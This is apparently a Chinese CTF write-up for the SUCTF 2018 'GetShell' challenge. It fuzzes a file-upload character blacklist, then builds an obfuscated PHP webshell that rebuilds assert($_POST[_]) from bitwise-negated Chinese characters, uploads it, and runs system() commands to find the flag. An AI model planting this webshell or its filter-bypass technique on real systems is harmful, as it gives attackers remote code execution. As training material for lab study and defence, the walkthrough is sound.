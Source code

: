 # [SUCTF 2018]GetShell

## 知识点

`文件上传汉字取反绕过`

## 解题

进入首页没发现什么东西

![can you get shell?](./img/[SUCTF 2018]GetShell-1.png)

查看源码发现链接

![](./img/[SUCTF 2018]GetShell-2.png)

进入页面后如图

![](./img/[SUCTF 2018]GetShell-3.png)

意思就是内容从第`5`位开始解析，如果在黑名单则返回`illegal char`

`fuzz`一下，[python fuzz脚本](Scripts/upload_file_fuzz.py)

```python
import requests
import time

printer_chars = [chr(i) for i in range(33, 127)]    # 可打印字符组

url = 'http://1d0510b4-e285-46ad-92ae-87a8dc851d38.node5.buuoj.cn:81/index.php?act=upload'

def upload_file_fuzz(fuzz_dict):
    for char in printer_chars:
        resp = requests.post(url, files={'file': ('demo.txt', ('12345' + char).encode())}, timeout=8)
        time.sleep(0.19)        # 尽量设置时间不要太过
        # print(resp.text)
        if 'illegal char' not in resp.text:
            print(f"字符可用 ===> {char}")

if __name__ == '__main__':
    upload_file_fuzz(printer_chars)
```

运行结果为

![](./img/[SUCTF 2018]GetShell-4.png)

发现`$`、`(`,`)`、`.`、`;`、`=`、`[`、`]`、`_`、`~`可通过，汉字也可以

使用取反汉字绕过

```php
<?php
echo 'PHP Version: ' . phpversion() . "\n";

$a = ~'垂';
echo $a . "\n";
echo $a[1];
```

![](./img/[SUCTF 2018]GetShell-5.png)

可以利用这个原理，构造`assert($_POST[_])`

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');

function str_split_unicode($str, $l = 0) {
    if ($l > 0) {
        $ret = array();
        $len = mb_strlen($str, "UTF-8");
        for ($i = 0; $i < $len; $i += $l) {
            $ret[] = mb_substr($str, $i, $l, "UTF-8");
        }
        return $ret;
    }
    return preg_split("//u", $str, -1, PREG_SPLIT_NO_EMPTY);
}

$s = '你归来是诗离去成词且笑风尘不敢造次我糟糠能食粗衣也认煮酒话桑不敢相思你终会遇见这么一个人他会用整个人生将你精心收藏用漫长岁月把你妥善安放怕什么岁月漫长你心地善良,终会有一人陪你骑马喝酒走四方为你唱一首歌歌中有你亦有我我的泪我的魅将都融入到我的歌声里飘向孤独的你你是否听到了我的歌曲是否也在黯然落泪？岁月匆匆人生漫漫漠视了真情谁是站谁的谁已经变得不重要至少曾经已拥有长相思爱相随时空隔离谁相陪？花前月下心随风相思一片梦成空笑看往事红尘中多少凝思付清秋？长相思泪相随曾经谁是谁的谁？孤星冷月泪盈盈念曾经相逢心长时光短让人垂泪到天明长相思苦相随窗前双燕比翼飞日暮情人成双对于时光无垠的田野中没有早一步也没有晚一步恰好遇见了想要遇见的人这是一段多少美丽而令人心动的尘缘于爱情来说相见恨早会恨晚站会留下梨花带雨的疼痛而于友情来说无论太早或者太迟都是一份值得珍惜的情缘晚秋缓缓走晚了我的轮回疏雨一刻半疏笼起我深深的梦馀昨日遗憾寸寸疏雨挑涸泪烛落笔无处飒晚秋彼晚秋未晚懒我疏雨疏风去归我初心还我清梦唯我在晚秋未晚里守望那疏雨半疏的麦田待下一片梧桐叶复舞我亦拾起我的旧梦旧梦清寒一枕乱我眸中晚秋躞蹀的雨疏疏拍窗我的晚秋疏雨半疏疏开昨日我的梦情缘如海深邃澈蓝干涸成妄谈一湛清湖泪潸然一颦寒眉锁阑珊只为你而欣悦只因你而清泪斑斑你是我的前世吧为何沁泊在我的心怀缱绻起涟波千层驻我心扉知我情怀从此我已习惯你的嘘寒问暖懒倦地痴卧在你的胸怀红霞满腮昨天再苦都要用今天的微笑把它吟咏成一段幸福的记忆；曾经再累都要用当站下的遗忘穿越万道红尘让心波澜不惊人生最大的荣耀不在于从不跌倒而在于每一次跌倒后都能爬起来回忆是件很累的事就像失眠时怎么躺都不对的样子有时候往往直到离开在回忆里才能知道自己有多喜欢一座城';

$arr_str=str_split_unicode($s);

$shell = "assertPOST";

for ($i=0; $i < strlen($shell); $i++) {
    for ($j=0; $j < strlen($s) ; $j++) {
        if ($shell[$i] === ~$arr_str[$j][1]) {      # 获取a对应的取反汉字
            echo $arr_str[$j].' ==> '.~$arr_str[$j][1] . "\n";
            break;                                  # 获取到汉字则结束循环，顺序输出
        }
    }
}
?>
```

![](./img/[SUCTF 2018]GetShell-6.png)

运行后获得取反结果，编写`webshell`,[取反绕过webshell脚本](./Scripts/reverse_chinese.php)

```php
<?php

error_reporting(0);

$__ = [];
$_ = ($__ == $__);   // $_ = 1

$__ = ~(融);
$___ = $__[$_];  // a
$__ = ~(匆);
$___ .= $__[$_];  // as
$__ = ~(匆);
$___ .= $__[$_];  // ass
$__ = ~(的);
$___ .= $__[$_];  // asse
$__ = ~(半);
$___ .= $__[$_];  // asser
$__ = ~(独);
$___ .= $__[$_];  // assert

$____ = ~(~(_));    // _
$__ = ~(诗);
$____ .= $__[$_];    // P
$__ = ~(尘);
$____ .= $__[$_];    // PO
$__ = ~(笑);
$____ .= $__[$_];    // POS
$__ = ~(站);
$____ .= $__[$_];    // POST

$_ = $$____; // $_POST
$___($_[_]);    // assert($_POST[_])
```

去掉文件内容中所有的空格和注释，得到[去除注释和空格的webshell](./Scripts/clear_reverse_chinese.php)

```php
<?php
$__=[];
$_=($__==$__);
$__=~(融);
$___=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(的);
$___.=$__[$_];
$__=~(半);
$___.=$__[$_];
$__=~(独);
$___.=$__[$_];
$____=~(~(_));
$__=~(诗);
$____.=$__[$_];
$__=~(尘);
$____.=$__[$_];
$__=~(笑);
$____.=$__[$_];
$__=~(站);
$____.=$__[$_];
$_=$$____;
$___($_[_]);
```

最后上传`webshell`，[上传webshell的python脚本](./Scripts/upload_reverse_chinese.py)

![](./img/[SUCTF 2018]GetShell-7.png)

![](./img/[SUCTF 2018]GetShell-8.png)

因为`ls /`不能用，但`ls`可以，使用`cd /;ls`

```bash
_=system("cd /;ls;cat Th1s_14_f14g;")
```

发现是假的`flag`，看看`env`

![](./img/[SUCTF 2018]GetShell-9.png)

在`env`发现`flag`

![](./img/[SUCTF 2018]GetShell-10.png)